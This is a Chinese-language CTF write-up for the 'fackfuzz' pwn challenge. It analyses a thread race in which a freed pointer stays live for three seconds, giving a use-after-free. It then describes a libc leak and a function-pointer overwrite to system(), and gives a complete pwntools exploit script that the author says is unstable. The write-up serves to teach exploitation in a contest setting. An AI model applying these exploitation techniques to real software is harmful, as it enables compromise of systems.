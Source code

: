 ```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup
运行一下可执行，可以看到此程序是一个驱动的fuzz程序

```
	---->fack driver fuzzing<----
	1. add a driver to fuzz
	2. prepare fuzz data
	3. start fuzzing
	4. stop fuzzing
	5. view driver list
	6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

	void __fastcall __noreturn freethread(void *a1)
	{
	  int idx; // [rsp+1Ch] [rbp-4h]@1
	
	  idx = *(_DWORD *)a1;
	  currentidx = idx;
	  isstop[idx] = 1;
	  free(ptr[idx]);
	  puts("wait for fuzz thread done");
	  sleep(3u);
	  ptr[idx] = 0LL;
	  if ( threadnum < 0 )
	    threadnum = 0;
	  free(data[idx]);
	  data[idx] = 0LL;
	  puts("stop this fuzz done!");
	  pthread_exit(0LL);
	}

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
	__int64 stopfuzz()
	{
	  signed int i; // [rsp+Ch] [rbp-74h]@3
	  char s2; // [rsp+10h] [rbp-70h]@1
	  __int64 v3; // [rsp+78h] [rbp-8h]@1
	
	  v3 = *MK_FP(__FS__, 40LL);
	  puts("input the driver name to stop fuzzing:");
	  readn((__int64)&s2, 0x68uLL);
	  if ( (unsigned int)checkname(&s2) )
	  {
	    for ( i = 0; i <= 9; ++i )
	    {
	      if ( ptr[i] && !strcmp(ptr[i], &s2) )
	      {
	        stop(i);
	        return *MK_FP(__FS__, 40LL) ^ v3;
	      }
	    }
	    puts("error name");
	  }
	  else
	  {
	    puts("invalid name");
	  }
	  return *MK_FP(__FS__, 40LL) ^ v3;
	}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
	from pwn import *;
	from time import sleep;
	port=8888
	objname = "fackfuzz"
	objpath = "./"+objname
	io = process(objpath)
	
	def readuntil(delim):
	    data = io.recvuntil(delim);
	    print data;
	    return data;
	
	def readlen(len):
	    data = io.recv(len,1);
	    return data;
	
	def readall():
	    data = io.recv(4096,1);
	    print data;
	    return data;
	
	def write(data):
	    sleep(0.05)
	    io.send(str(data));
	    
	def writeline(data):
	    sleep(0.05)
	    io.sendline(str(data));
	
	def padding(size):
	    cf = "/bin/shcat/home/ctf/flag";
	    paddata = "";
	    for i in range(size):
	        paddatax += cf[i%len(cf)];
	    return paddata;
	
	def newdriver(name):
	    writeline(1);
	    writeline(name)
	    readall()
	def prepare(readsize,readdata):
	    writeline(2);
	    writeline(readsize);
	    writeline(readdata);
	    writeline(2);
	    writeline(1);
	    writeline(1);
	    writeline(1);
	    writeline(1);
	    readall()
	def startfuzz(name):
	    writeline(3);
	    writeline(name);
	    readall();
	def stopfuzz(name):
	    writeline(4);
	    writeline(name);
	    readall();
	def viewdriver():
	    writeline(5);
	    print readuntil(":");
	    return readuntil("\n")[:-1];
	    	
	def attack(ip=0):
	    global io
	    if ip != 0:
	        io = remote(ip,port)
	    newdriver("/dev/haha1");
	    prepare(10,"haha1")
	    prepare(50,"cat flag > /dev/fd/1\x00")
	    stopfuzz("/dev/haha1");
	    usortbin=viewdriver();
	    usortbin=usortbin+(8-len(usortbin))*'\x00';
	    usortbin=u64(usortbin);
	    system=usortbin-0x378178
	    print hex(system);
	    newdriver("/dev/haha3");0x01e36010
	    stopfuzz("/dev/haha3");
	    sleep(4)
	    
	    payload="/dev/haha4\x00"
	    payload+=(0x68-len(payload))*"A";
	    payload+=p64(system)*3;
	    prepare(0x88,payload);
	    print viewdriver()
	    
	    startfuzz("/dev/haha4");
	    sleep(3)
	    readall()＃get flag

	attack()
```

**此exploit理论上应该完全没问题，但是实际攻击的时候却不是很稳定，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**